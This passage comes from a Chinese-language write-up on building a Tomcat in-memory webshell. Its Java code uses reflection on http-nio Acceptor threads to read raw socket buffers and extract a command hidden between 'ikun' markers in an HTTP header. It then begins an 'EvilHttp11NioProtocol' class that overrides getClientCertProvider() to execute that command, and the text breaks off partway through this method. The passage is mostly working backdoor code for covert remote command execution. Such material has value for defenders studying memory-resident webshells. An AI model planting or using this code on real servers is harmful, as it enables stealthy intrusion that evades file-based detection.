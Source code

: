 获取参数代码如下：

```plain
// 从 socket 中获取参数
// 位置 Thread.getThreads()[15].target.this$0.pollers[0].selector.channelArray[1].attachment.socket.appReadBufHandler.byteBuffer.hb
public String getRequest() {
    // 获取当前线程的所有线程
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        try {
            // 需要获取线程的特征包含Acceptor
            if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                Object[] nioEndpointPollerArrays = (Object[]) getField(getField(getField(thread,"target"),"this$0"),"pollers");
                for (Object nioEndpointPollerArray : nioEndpointPollerArrays){
                    Object[] channelArrays = (Object[]) getField(getField(nioEndpointPollerArray,"selector"),"channelArray");
                    for (Object obj : channelArrays){
                        if (obj != null){
                            byte[] bytes = (byte[]) getField(getField(getField(getField(getField(obj,"attachment"),"socket"),"appReadBufHandler"),"byteBuffer"),"hb");
                            String cmd = new String(bytes);
                            return cmd;
                        }
                    }
                }
            }
        } catch (Exception e) {
            continue;
        }
    }
    return "";
}

// 解析字符串获取 cmd 字符串
public String getCmd(String str){
    // HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器
    String cmd = str.substring(str.indexOf("ikun")+4 , str.lastIndexOf("ikun"));
    return cmd;
}
```

## 补充

### EvilHttp11NioProtocol 类的编写

我们需要重写 getClientCertProvider() 方法。

```plain
// 恶意 EvilHttp11NioProtocol 对象
    public class EvilHttp11NioProtocol extends Http11NioProtocol {
        public EvilHttp11NioProtocol() {
            super();
        }
        // 重写 getClientCertProvider
        // 关键位置 -> process:790, AbstractProtocol$ConnectionHandler (org.apache.coyote)
        // 代码段 -> processor.setSslSupport(wrapper.getSslSupport(getProtocol().getClientCertProvider()));
        @Override
        public String getClientCertProvider() {
            // evil code
            try {
                String cmd = getCmd(getRequest());
                System.out.println(cmd);
```